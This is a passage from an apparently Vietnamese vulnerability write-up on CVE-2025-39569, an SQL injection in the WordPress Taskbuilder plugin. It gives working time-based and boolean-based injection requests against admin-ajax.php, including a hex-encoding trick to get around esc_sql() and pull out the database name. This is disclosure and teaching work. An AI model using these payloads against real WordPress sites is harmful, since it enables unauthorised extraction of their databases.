```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+SLEEP(1))
```

{{< figure src="sqli_success.png" caption="Sqli success" alt="sqli success" >}}

Thời gian phản hồi bị delay => SQL Injection thành công.

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì toàn bộ data đều dump được.

Gửi request với SQLi payload **boolean base** vói `proj_id` đúng:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,4,999))
```

> Database name được tôi đặt tên là **wordpress** nên kí tự đầu tiên là `w` tương ứng với mã HEX là `0x77`

Sử dụng `SUBSTRING(STRING,1,1)` để lấy kí tự đầu tiên của chuỗi

Ở đây, `$proj_id` bằng `4` vì `SUBSTRING('wordpress',1,1)=0x77` là đúng nên `SELECT` lấy giá trị đúng trong `IF(condition, value if true, value if false)`, `4` là giá trị có thực trong database, nên response trả về chứa danh sách người tham gia dự án

{{< figure src="res.png" caption="Res 1" alt="response 1" >}}

Sử dụng **HEX technique** để bypass hàm `esc_sql()` [ở trên](#patch-diff), dùng để so sánh khi không sử dùng được `'`

Gửi request với SQLi payload **boolean base** vói `proj_id` sai:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,999,4))
```

Với `proj_id` không có thực trong database, response sẽ trả về kết quả chứa `None`

{{< figure src="res_none.png" caption="Res 2" alt="response 2" >}}

👉 Ta đã lấy được kí tự đầu tiên của database name bằng kỹ thuật **boolean base**

* `proj_id` đùng: response không chứa None
* `proj_id` sai: response chứa None

> Có thể sử dụng kỹ thuật **time base** nhưng khi dump số lượng lớn data, thời gian dump sẽ rất lâu

## Conclusion

Lỗ hổng **CVE-2025-39569** trong plugin **WordPress Taskbuilder** xuất phát từ việc thiếu dấu nháy đơn `'...'` bao quanh dữ liệu đầu vào trong câu lệnh SQL, khiến dữ liệu người dùng có thể được diễn giải như một phần của câu lệnh SQL hợp lệ.
